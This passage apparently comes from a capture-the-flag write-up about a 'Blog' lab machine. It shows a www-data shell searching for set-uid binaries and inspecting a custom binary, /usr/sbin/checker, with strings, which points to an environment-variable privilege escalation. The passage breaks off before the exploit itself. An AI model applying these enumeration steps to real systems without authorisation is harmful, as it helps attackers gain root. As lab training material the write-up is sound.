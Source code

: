 So I checked the `bjoel/user.txt`, but ... the classic "TRY HARDER" was shown to me ;-;

Let's now look for the PrivEsc.

## 3. Priv Esc
Let's first look at who all have the set-uid bit. 
```
www-data@blog:/var/www/wordpress$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
...
```

The thing that pops out is: `/usr/sbin/checker`

```
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```

```
www-data@blog:/var/www/wordpress$ strings /usr/sbin/checker
strings /usr/sbin/checker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
puts
getenv
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=9       
AWAVI
AUATL
[]A\A]A^A_
admin
/bin/bash
```